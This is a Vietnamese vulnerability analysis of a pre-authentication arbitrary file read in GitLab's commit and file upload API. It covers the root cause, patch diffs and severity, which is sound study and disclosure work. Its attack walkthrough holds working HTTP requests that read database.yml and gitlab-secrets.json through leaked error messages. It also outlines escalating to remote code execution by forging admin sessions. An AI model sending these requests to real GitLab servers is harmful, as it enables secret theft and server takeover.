


**CVE-2026-85706** là lỗ hổng đọc file tùy ý trước xác thực (Pre-auth Arbitrary Local File Read) xuất phát từ cơ chế xử lý upload request body trong Commits & Files API của GitLab. Sự kết hợp giữa việc thiếu sót xác thực tại entry point, ranh giới tin cậy bị phá vỡ giữa Workhorse và Rails, cùng việc ném thông báo ngoại lệ chưa được làm sạch của parser đã biến một API tạo commit thành một kênh trích xuất dữ liệu nhạy cảm trên máy chủ.

Lỗ hổng này không chỉ đơn thuần là một lỗi path traversal truyền thống. Đây là kết quả của sự suy giảm trong phòng thủ theo chiều sâu (Defense-in-Depth):

- **Missing Authentication** — Route `POST /api/v4/projects/:id/repository/commits` và các route file upload liên quan thiếu lệnh kiểm tra `authenticate!`, cho phép unauthenticated request trên các public project đi sâu vào logic xử lý nội bộ.
- **Trust Boundary Violation** — Helper `commits_body_uploader_helper.rb` tin tưởng trực tiếp tham số thô `params['file.path']` do người dùng kiểm soát, thay vì kiểm tra đối tượng `UploadedFile` đã được ký số bởi middleware.
- **Type Validator Bypass** — Bộ lọc tham số `requires :file, type: ::API::Validations::Types::WorkhorseFile` bị qua mặt dễ dàng khi truyền chuỗi rỗng `file: ''` do method `parse` trả về `nil` cho các giá trị blank.
- **File Existence Oracle & Content Leak Sink** — Sự tồn tại của file trên hệ thống bị lộ qua thông báo lỗi `local file not present`, và nội dung file bị rò rỉ trực tiếp ra HTTP Response 400 thông qua exception `Rack::QueryParser::InvalidParameterError` của Rack query parser.

Lỗ hổng ảnh hưởng đến các phiên bản GitLab CE/EE trước **19.3.2** (cùng các bản backport 19.2.x, 19.1.x tương ứng). GitLab đã ghi nhận và phát hành bản vá trong bản cập nhật bảo mật định kỳ [GitLab Patch Release 19.3.2](https://gitlab.com/gitlab-org/security/gitlab/-/merge_requests/6754) (Issue #627748).

| Thuộc tính | Kết quả đã xác minh |
| --- | --- |
| Thành phần | GitLab Rails (Commits & Files API, CommitsBodyUploaderHelper) |
| Entry point | `POST /api/v4/projects/:id/repository/commits`<br>`POST/PUT /api/v4/projects/:id/repository/files/:file_path` |
| Yêu cầu xác thực | **Không (Pre-authentication)** đối với các public repository |
| Phiên bản bị ảnh hưởng | `< 19.3.2` (Bao gồm cả phiên bản `19.3.1`) |
| Phiên bản sửa lỗi | **19.3.2** |
| Tác động cuối | Đọc file tùy ý trên server (LFI / Arbitrary File Read), lộ file secrets, cấu hình, token nội bộ |


---


## Mô hình xử lý đúng của GitLab Workhorse và Upload Acceleration

Để hiểu vì sao lỗ hổng lại phát sinh, trước hết cần xem xét kiến trúc tăng tốc upload (Upload Acceleration) giữa **GitLab Workhorse** (reverse proxy viết bằng Go) và **GitLab Rails** (Puma backend).

Khi người dùng thực hiện upload một commit lớn hoặc file lớn vào repository:

1. Request đi qua GitLab Workhorse đầu tiên.
2. Workhorse gửi một truy vấn nội bộ đến Rails tại route `.../authorize` để kiểm tra quyền hạn của người dùng.
3. Nếu Rails chấp thuận (`200 OK`), Workhorse đọc body của client và ghi tạm thời vào thư mục đệm trên disk (ví dụ: `/var/opt/gitlab/gitlab-rails/uploads/tmp/...`).
4. Workhorse viết lại request gửi tới Rails: nó tạo các trường metadata chứa đường dẫn file tạm (`file.path`), kích thước (`file.size`) và ký kèm một **JWT token** với secret nội bộ chia sẻ giữa Workhorse và Rails.
5. Middleware phía Rails (`Gitlab::Middleware::Multipart`) giải mã JWT. Nếu chữ ký hợp lệ, nó bao bọc đường dẫn file thành đối tượng `::UploadedFile` an toàn và gán vào `params[:file]`.



### Các bất biến bảo mật bị phá vỡ

Kiến trúc bảo mật của cơ chế này dựa trên 3 giả định bắt buộc:

> 1. **Authentication Invariant:** Mọi endpoint ghi hoặc upload tài nguyên bắt buộc phải xác thực danh tính người dùng (`authenticate!`) trước khi cho phép đệm dữ liệu vào disk.
> 2. **Trust Boundary Invariant:** Backend Rails tuyệt đối không bao giờ tin cậy các tham số thô như `params['file.path']` được gửi từ HTTP client, mà chỉ được phép tin cậy các đối tượng `::UploadedFile` do middleware tạo ra sau khi đã verify chữ ký số của Workhorse.
> 3. **Information Disclosure Invariant:** Không bao giờ đưa nguyên văn nội dung của lỗi ngoại lệ (`e.message`) từ bộ parser vào phản hồi HTTP gửi lại cho người dùng.

CVE-2026-85706 đồng thời phá vỡ cả 3 bất biến trên.

---

## Phân tích căn nguyên (Root Cause Analysis)

### 1. Bỏ quên xác thực ở Commits & Files API

Kiểm tra mã nguồn `lib/api/commits.rb` tại phiên bản `v19.3.1`:

```ruby
params do
  requires :file, type: ::API::Validations::Types::WorkhorseFile, desc: 'The commit content to be created (generated by Multipart middleware)', documentation: { type: 'file' }
end
route_setting :authorization, permissions: :create_commit, boundary_type: :project
post ':id/repository/commits' do
  require_gitlab_workhorse!

  attrs = file_params_from_body_upload

  # Validate branch type before using it in authorize_push_to_branch!
  validate_string_param!(attrs, :branch)

  authorize_push_to_branch!(attrs[:branch])
  ...
```

Nhìn vào thứ tự thực thi của route:
1. `require_gitlab_workhorse!` chỉ kiểm tra header `HTTP_GITLAB_WORKHORSE` và xác nhận request đến từ Workhorse.
2. Ngay dòng tiếp theo: `attrs = file_params_from_body_upload` được gọi **trước mọi bước phân quyền hay xác thực**.
3. Việc kiểm tra quyền `authorize_push_to_branch!` và `current_user` chỉ diễn ra **sau khi** `file_params_from_body_upload` đã chạy xong!
4. Quan trọng hơn, không hề có lệnh `authenticate!` ở đầu endpoint. Đối với bất kỳ repository công khai (public project) nào, unauthenticated request có thể dễ dàng vượt qua bước tìm kiếm project (`find_project!(params[:id])`) để tiến thẳng vào body của endpoint.

Tình trạng tương tự cũng xảy ra tại các route tạo và cập nhật file trong `lib/api/files.rb`:
- `POST :id/repository/files/:file_path`
- `PUT :id/repository/files/:file_path`
- `POST :id/repository/commits/authorize`

### 2. Bypass Grape Validator thông qua giá trị rỗng

Grape định nghĩa tham số bắt buộc:
```ruby
requires :file, type: ::API::Validations::Types::WorkhorseFile
```

Kiểm tra parser của kiểu dữ liệu này tại `lib/api/validations/types/workhorse_file.rb`:

```ruby
module API
  module Validations
    module Types
      class WorkhorseFile
        def self.parse(value)
          return if value.blank?
          raise "#{value.class} is not an UploadedFile type" unless parsed?(value)

          value
        end

        def self.parsed?(value)
          value.is_a?(::UploadedFile)
        end
      end
    end
  end
end
```

Khi một kẻ tấn công gửi một POST request thông thường với trường `file=""` (hoặc rỗng):
- Method `parse(value)` kiểm tra `value.blank?`.
- Vì `"".blank?` là `true`, method này thực thi `return nil` ngay lập tức.
- Do Grape mặc định không bật ràng buộc `allow_blank: false` cho trường này, giá trị `nil` được chấp nhận và request vượt qua bước kiểm tra kiểu dữ liệu mà không ném ra exception!

### 3. Lỗ hổng Trust Boundary: Tin tưởng `params['file.path']`

Sau khi vượt qua validation của Grape, request đi vào hàm trợ giúp `file_params_from_body_upload` nằm trong `lib/api/helpers/commits_body_uploader_helper.rb`:

```ruby
def file_params_from_body_upload
  file_path = params['file.path']
  bad_request!('local file not present') unless File.exist?(file_path)

  check_large_request_rate_limit!(params['file.size'])

  media_type = Rack::MediaType.type(params['Content-Type'])
  ...
```

Thay vì trích xuất đường dẫn file an toàn từ `params[:file]&.path` (vốn là một đối tượng `UploadedFile` đã qua xác thực chữ ký JWT của Workhorse), lập trình viên lại lấy trực tiếp chuỗi từ:
```ruby
file_path = params['file.path']
```

Chuỗi `params['file.path']` này hoàn toàn do HTTP client kiểm soát thông qua query string hoặc POST form data! Kẻ tấn công có thể truyền bất kỳ đường dẫn nào trên hệ điều hành, chẳng hạn `/etc/passwd` hoặc các file cấu hình bí mật của GitLab.

### 4. File Existence Oracle

Ngay sau khi gán biến `file_path`:
```ruby
bad_request!('local file not present') unless File.exist?(file_path)
```

- Nếu file được chỉ định **không tồn tại** trên ổ đĩa của máy chủ, Rails sẽ trả về mã HTTP `400 Bad Request` kèm thông báo:
  ```json
  {"message": "400 Bad Request - local file not present"}
  ```
- Nếu file **có tồn tại**, logic xử lý tiếp tục mà không dừng lại ở bước này.

Đặc điểm này cung cấp cho kẻ tấn công một **File Existence Oracle** hoàn hảo trước xác thực: chỉ cần thay đổi đường dẫn trong `file.path`, kẻ tấn công có thể quét và xác định chính xác sự tồn tại của bất kỳ tệp tin hoặc thư mục nào trên hệ điều hành.

### 5. Data Exfiltration Sink: Rò rỉ nội dung qua Rack Parser

Nếu chỉ dừng lại ở việc đọc file vào bộ nhớ, kẻ tấn công chưa thể lấy được nội dung về máy. Tuy nhiên, logic xử lý tiếp theo trong `file_params_from_body_upload` đã tạo ra một sink rò rỉ dữ liệu nghiêm trọng:

```ruby
media_type = Rack::MediaType.type(params['Content-Type'])

if media_type == 'multipart/form-data'
  ...
elsif media_type == 'application/x-www-form-urlencoded'
  begin
    Rack::Utils.parse_nested_query(File.read(file_path)).deep_symbolize_keys!
  rescue Rack::QueryParser::QueryLimitError => e
    bad_request!("Invalid form data exceeded query limit: #{e.message}")
  rescue Rack::QueryParser::ParameterTypeError => e
    bad_request!("Invalid parameter type: #{e.message}")
  rescue Rack::QueryParser::InvalidParameterError => e
    bad_request!("Invalid parameter: #{e.message}")
  end
elsif media_type.nil? || media_type == 'application/json'
  Oj.load_file(file_path, symbol_keys: true)
else
  bad_request!("Unsupported Content-Type: #{media_type}")
end
```

Khi kẻ tấn công gửi header `Content-Type: application/x-www-form-urlencoded`:

1. Rails thực hiện `File.read(file_path)`: Đọc toàn bộ nội dung file nhạy cảm từ disk vào bộ nhớ RAM.
2. Dữ liệu thô này được chuyển cho hàm `Rack::Utils.parse_nested_query(...)` để phân tích như một chuỗi query string.
3. Bộ phân tích cú pháp của Rack (`Rack::QueryParser`) tự động giải mã các ký tự percent-encoding (`%XX`).
4. Nếu file chứa ký tự `%` không hợp lệ (ví dụ `%` không đi kèm hai chữ số hex chuẩn, rất phổ biến trong các file cấu hình, hash mật mã, chứng chỉ SSL/TLS, log, hoặc shell script), Rack sẽ quăng ngoại lệ `Rack::QueryParser::InvalidParameterError` kèm thông báo chứa chính chuỗi vi phạm:
   ```text
   invalid %-encoding (phần_chuỗi_chứa_nội_dung_file)
   ```
5. Khối `rescue` của GitLab bắt ngoại lệ này và nối trực tiếp thông báo lỗi vào response:
   ```ruby
   bad_request!("Invalid parameter: #{e.message}")
   ```
6. Nội dung bí mật trong file được trả về nguyên vẹn trong HTTP Response cho kẻ tấn công!



---

## Bằng chứng đối chiếu source code (Proof by patch)

Xem xét chi tiết commit vá lỗi **`e986c922de8`** giữa phiên bản `v19.3.1` và `v19.3.2`.

### 1. Bổ sung `authenticate!` tại các Endpoint

Tại `lib/api/commits.rb` và `lib/api/files.rb`, việc xác thực được kích hoạt ngay trước khi xử lý upload:

```diff
--- a/lib/api/commits.rb
+++ b/lib/api/commits.rb
@@ -349,6 +349,7 @@ def filter_commits_attrs!(attrs)
       route_setting :authorization, permissions: :create_commit, boundary_type: :project
       post ':id/repository/commits' do
         require_gitlab_workhorse!
+        authenticate!
 
         attrs = file_params_from_body_upload
```

```diff
--- a/lib/api/files.rb
+++ b/lib/api/files.rb
@@ -361,6 +361,7 @@ def filter_file_params!(params)
       route_setting :authorization, permissions: :create_repository_file, boundary_type: :project
       post ":id/repository/files/:file_path", requirements: FILE_ENDPOINT_REQUIREMENTS, urgency: :low do
         require_gitlab_workhorse!
+        authenticate!
 
         file_params = validate_file_params!(file_params_from_body_upload)
@@ -406,6 +407,7 @@ def filter_file_params!(params)
       route_setting :authorization, permissions: :update_repository_file, boundary_type: :project
       put ":id/repository/files/:file_path", requirements: FILE_ENDPOINT_REQUIREMENTS, urgency: :low do
         require_gitlab_workhorse!
+        authenticate!
 
         file_params = validate_file_params!(file_params_from_body_upload)
```

Tại `workhorse_authorize_commits_body_upload!` (xử lý endpoint `/authorize`), bước xác thực cũng được thêm vào để ngăn chặn Workhorse đệm dữ liệu của người dùng ẩn danh:

```diff
--- a/lib/api/helpers/commits_body_uploader_helper.rb
+++ b/lib/api/helpers/commits_body_uploader_helper.rb
@@ -6,6 +6,9 @@ module CommitsBodyUploaderHelper
       def workhorse_authorize_commits_body_upload!
         require_gitlab_workhorse!
 
+        # Authenticate before Workhorse buffers the request body to disk.
+        authenticate!
+
         yield if block_given?
```

### 2. Loại bỏ `params['file.path']`, chỉ chấp nhận `UploadedFile`

Thay đổi cốt lõi tại `lib/api/helpers/commits_body_uploader_helper.rb`:

```diff
@@ -15,18 +18,25 @@ def workhorse_authorize_commits_body_upload!
       end
 
       def file_params_from_body_upload
-        file_path = params['file.path']
-        bad_request!('local file not present') unless File.exist?(file_path)
+        # Trust only middleware-finalized upload metadata for the file path and size,
+        # never the raw `file.path` or `file.size` parameters.
+        uploaded_file = params[:file]
+        bad_request!('file is invalid') unless uploaded_file.is_a?(::UploadedFile)
+
+        file_path = uploaded_file.path
+        bad_request!('local file not present') unless file_path.present? && File.exist?(file_path)
 
-        check_large_request_rate_limit!(params['file.size'])
+        check_large_request_rate_limit!(uploaded_file.size)
 
         media_type = Rack::MediaType.type(params['Content-Type'])
 
         if media_type == 'multipart/form-data'
+          uploaded_file.rewind
+
           env = {
             'CONTENT_TYPE' => params['Content-Type'],
-            'CONTENT_LENGTH' => params['file.size'],
-            'rack.input' => File.open(file_path),
+            'CONTENT_LENGTH' => uploaded_file.size.to_s,
+            'rack.input' => uploaded_file,
```

GitLab đã loại bỏ hoàn toàn việc đọc `params['file.path']`. Giờ đây, chỉ đối tượng `uploaded_file = params[:file]` (được `Gitlab::Middleware::Multipart` xác thực tính hợp lệ) mới có thể cung cấp đường dẫn cục bộ.

### 3. Làm sạch ngoại lệ của Rack Parser

Các thông báo chi tiết của exception `#{e.message}` đã bị xóa bỏ để triệt tiêu triệt để sink rò rỉ dữ liệu:

```diff
         elsif media_type == 'application/x-www-form-urlencoded'
           begin
             Rack::Utils.parse_nested_query(File.read(file_path)).deep_symbolize_keys!
-          rescue Rack::QueryParser::QueryLimitError => e
-            bad_request!("Invalid form data exceeded query limit: #{e.message}")
-          rescue Rack::QueryParser::ParameterTypeError => e
-            bad_request!("Invalid parameter type: #{e.message}")
-          rescue Rack::QueryParser::InvalidParameterError => e
-            bad_request!("Invalid parameter: #{e.message}")
+          rescue Rack::QueryParser::QueryLimitError
+            bad_request!('Invalid form data exceeded query limit')
+          rescue Rack::QueryParser::ParameterTypeError
+            bad_request!('Invalid parameter type')
+          rescue Rack::QueryParser::InvalidParameterError
+            bad_request!('Invalid parameter')
           end
```

### 4. Bản vá tương tự cho Terraform State API (Commit `0f8ed0017db`)

Một lỗ hổng tương tự với cùng cơ chế cũng được vá tại `lib/api/terraform/state.rb`:

```diff
--- a/lib/api/terraform/state.rb
+++ b/lib/api/terraform/state.rb
@@ -161,9 +161,11 @@ def check_terraform_state_protection!
             authorize! :admin_terraform_state, user_project
             check_terraform_state_protection!
 
-            # Direct upload is not supported, so we should have access to the file.
-            file_path = params['file.path']
-            unprocessable_entity!('Terraform state file not found on disk') unless File.exist?(file_path)
+            # Read the path from the Workhorse-verified UploadedFile, not the raw
+            # 'file.path' param, which is attacker-controlled if Workhorse's
+            # multipart preprocessing was bypassed.
+            file_path = params[:file]&.path
+            unprocessable_entity!('Terraform state file not found on disk') unless file_path && File.exist?(file_path)
             data = File.read(file_path)
```

---

## Kịch bản khai thác từng bước (Step-by-step Attack Walkthrough)

Dưới đây là cách thức một kẻ tấn công kết hợp các mắt xích để khai thác lỗ hổng trong môi trường thực tế:

### Bước 1: Thu thập mục tiêu
Kẻ tấn công tìm kiếm một public project bất kỳ trên máy chủ GitLab mục tiêu (ví dụ: `project_id = 1` hoặc `gitlab-instance/public-repo`). Do endpoint không kiểm tra xác thực trước khi chạy helper upload, kẻ tấn công không cần có bất kỳ quyền hạn hay tài khoản nào trên hệ thống.

### Bước 2: Dò quét sự tồn tại của file (File Existence Oracle)
Kẻ tấn công gửi request kiểm tra file bí mật của GitLab:

```http
POST /api/v4/projects/1/repository/commits HTTP/1.1
Host: gitlab.example.com
Content-Type: application/x-www-form-urlencoded

file=&file.path=/opt/gitlab/embedded/service/gitlab-rails/config/database.yml&file.size=1
```

- Nếu nhận về `400 Bad Request` với body `{"message": "400 Bad Request - local file not present"}` $\rightarrow$ Đường dẫn không tồn tại.
- Nếu nhận về kết quả khác hoặc ngoại lệ xử lý tiếp theo $\rightarrow$ File chắc chắn tồn tại trên disk.

### Bước 3: Đọc file tùy ý thông qua Percent-encoding Parsing Error
Khi nhắm tới một file chứa các chuỗi nhạy cảm có định dạng encoding không chuẩn (chẳng hạn như file chứa dấu `%`, chứng chỉ RSA/TLS, private key, token cấu hình, hoặc file cấu hình bí mật `/etc/gitlab/gitlab-secrets.json`), kẻ tấn công kích hoạt exception của Rack:

```http
POST /api/v4/projects/1/repository/commits HTTP/1.1
Host: gitlab.example.com
Content-Type: application/x-www-form-urlencoded

file=&file.path=/etc/gitlab/gitlab-secrets.json&file.size=100
```

Response trả về từ máy chủ GitLab:

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json

{"message":"Invalid parameter: invalid %-encoding (...trích xuất nội dung file...) "}
```

### Bước 4: Mở rộng tác động (Escalation)
Sau khi đọc được các tệp tin cấu hình nhạy cảm:
- Đọc `/etc/gitlab/gitlab-secrets.json`: Thu được `secret_key_base`, `db_key_base`, `otp_key_base`.
- Với `secret_key_base` trong tay, kẻ tấn công có thể rèn (forge) session cookie của quản trị viên (Admin session) hoặc thực hiện deserialization gadget chains để đạt **Remote Code Execution (RCE)** toàn diện trên hệ thống GitLab.

---

## Đánh giá mức độ nghiêm trọng

| Hệ thống đánh giá | Điểm số | Vector & Đánh giá chi tiết |
| --- | --- | --- |
| **CVSS v3.1** | **8.6 (High)** | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N`<br>Tấn công qua mạng từ xa, độ phức tạp thấp, không cần đặc quyền (unauthenticated), không cần tương tác người dùng, bảo mật Confidentiality ở mức High. |

Mặc dù bản chất là một lỗi Arbitrary File Read, nhưng vì có thể đọc được `gitlab-secrets.json` trên một cài đặt GitLab tiêu chuẩn, độ nguy hiểm thực tế của lỗ hổng này rất nhanh chóng tiệm cận mức **Critical (Pre-auth RCE)** nếu kẻ tấn công xâu chuỗi cùng kỹ thuật ký cookie session Rails.

---

## Kết luận

Qua phân tích đối chiếu source code và bản vá của **CVE-2026-85706**, chúng ta có thể tổng kết:

1. Lỗ hổng xuất phát từ việc thiếu `authenticate!` tại Commits và Files API, cho phép unauthenticated request trên public project đi thẳng vào luồng xử lý upload body.
2. Helper `CommitsBodyUploaderHelper` tin cậy tham số thô `params['file.path']` thay vì đối tượng `UploadedFile` có chữ ký từ Workhorse.
3. Bộ lọc `WorkhorseFile` bị bypass bởi chuỗi rỗng `file: ''`.
4. Kẻ tấn công có được một File Existence Oracle qua `File.exist?(file_path)` và một sink trích xuất nội dung file hoàn chỉnh thông qua exception message của `Rack::Utils.parse_nested_query`.
5. Bản vá trên GitLab **19.3.2** đã bịt kín toàn bộ các mắt xích này bằng cách ép xác thực bắt buộc, chỉ nhận file qua `UploadedFile` và làm sạch các chuỗi exception trả về.

---

## Tài liệu tham khảo

- [GitLab 19.3.2 Security Release Notes](https://gitlab.com/gitlab-org/gitlab-foss/-/blob/master/CHANGELOG.md#19-3-2-2026-09-10)
- [GitLab Security Issue #627748](https://gitlab.com/gitlab-org/security/gitlab/-/merge_requests/6754)
- [Commit Diff e986c922de8 - GitLab Security Repository](https://gitlab.com/gitlab-org/security/gitlab/-/commit/e986c922de87f9c685ba9d063c90f3c04a1195ac)
- [Rack QueryParser Documentation](https://rubydoc.info/gems/rack/Rack/QueryParser)
